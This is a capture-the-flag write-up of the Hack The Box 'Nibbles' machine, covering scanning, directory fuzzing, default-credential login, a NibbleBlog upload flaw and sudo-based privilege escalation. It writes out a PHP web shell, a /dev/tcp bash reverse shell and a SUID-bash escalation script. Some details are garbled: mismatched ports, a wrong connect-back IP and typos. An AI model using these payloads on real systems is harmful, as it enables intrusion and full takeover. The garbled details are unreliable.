 ```yaml
---
title: "Nibbles"
date: 2023-07-04T13:02:46+02:00
tags: ["web","nibbleblog","php","linux"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Nibbles.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "This room is a Linux environment running a website powered by the Nibbleblog engine, and the version we are using has a shell vulnerability."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Nibbles
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Nibbles

![Untitled](/HTB/nibbles-icon.png)

## Tools Used

- Nmap
- Gobuster
- wfuzz
- searchsploit
- whatweb
- wappalizer


## Port Scanning

The results shows that we have two open ports one running http service at port 80 and other and other running a ssh service at port 22.

```bash
nmap -p- -sC -sV -vvv --min-rate 5000 --open -sS -n -Pn -oN escaneo 10.10.10.75
```

![Untitled](/HTB/escaneo-nibbles.png)

## Enumeration

Let’s focus on the website.

![Untitled](/HTB/nibbles-1.png)

The website shows a Hello World message only.

![Untitled](/HTB/nibbles-2.png)

If we go to the source code we can see that there is a commented line that told us where is the real website running.

![Untitled](/HTB/nibbles-3.png)

With Wfuzz I am going to fuzz the website and also the /nibbleblog/ directory.

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.75/FUZZ
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php
 
```
![Untitled](/HTB/wfuzz-nibbles.png)

And with Wfuzz listing all archives of /nibbleblog/ directory.

![Untitled](/HTB/wfuzz3-nibbles.png)


We can find some useful information about the software of the website in the README file.

![Untitled](/HTB/nibbles-4.png)

## TTY Treatment

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
restet xterm
export TERM=xterm
```

## Gaining an Initial Foothold

With the extension of firefox called Wappalyzer we can see that the web page executes php 
code. So with the second command I search for all .php files in the directory.

The most interesting I saw, was http://10.10.10.75/nibbleblog/admin.php, that shows us a login
panel. Whenever I see this I start trying combinations, just in case I get lucky and manage
to find the password without having to use brute force with hydra, burpuiste or some similar 
program. Some of the combinations I tried were admin/admin guest/guest nibbles/nibbles 
admin/nibbles admin/nibbles admin/nibble ... Luckily I found almost the first time the 
password and the user, which was admin/nibbles.

![Untitled](/HTB/nibbles-7.png)

With `whatweb /10.10.10.75/nibbleblog` we can see the version, and with the README file too.
So let’s see if there are some vulns for that version of nibbleblog.

![Untitled](/HTB/nibbles-6.png)

In google I found one [article](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) that don’t mention metasploit.

This article explain how works a shell vuln that helps you to do RCE with a reverse shell. The article explain that if we have credentials we can take advantage of the my image plugin preinstalled in all the nibbleblogs with our version to upload a php reverse shell.

We need now to navigate to Plugins > Mi image > Config as says the article.

![Untitled](/HTB/nibbles-8.png)

The vuln’s article says that we need to put the reverse shell as a image and ignore the warnings I uploaded this [reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Let’s set up a listener in the port 4444 and

```bash
nc -lv 4444
```
 create an archive with `nano payload.php` that says this, more or less:

```php
<?php
system($_REQUEST['cmd']);
?>
```
that allows us to execute code remotely and interactively, using the url as a bash.

Once uploaded we need to move to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php and
aplicate teh file like this `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.10.75/443 0>%261"`, like u see
I changed this `&` to this `%26` as it is its urlencoded equivalent.

![Untitled](/HTB/pwnd-nibbles.png)
 

## Escalating Privilege

If we use sudo -l we observe a .sh that can be ran by sudo without password this .sh is found at /home/nibbler/personal/stuff/monitor.sh

![Untitled](/HTB/nibbles-11.png)

- If we unzip the zip we can find this .sh and modifying his content to “/bin/bash” we can run a shell with root privilege thanks to the sudo command.

	```bash
	sudo /home/nibbler/personal/stuff/monitor.sh
	```
- Another option is to create both folders /personal/stuff/ and the file monitor.sh, give it 
`chmod +x monitor.sh` permissions. Inside the monitor.sh file we put the following code:
 
	```bash
	#!/bin/bash

	chmod u+s /bin/bash
	```
 Then I do a `sudo -u root /home/nibbler/personal/stuff/monitor.sh` to gain privilegies,
 then doing `bash -p` we are now user root !!!

**Root’s flag**

![Untitled](/HTB/nibbles-13.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learned the importance of changing the default credentials if this thing was changed maybe the exploitation of the machine gonna be more harder.
    
- Were there any novel tools or techniques employed?
    
    Other way to exploit the sudo -l by modifying the content of a .sh which let us have privesc.

**Thank you for reading, and happy hacking! 😄**
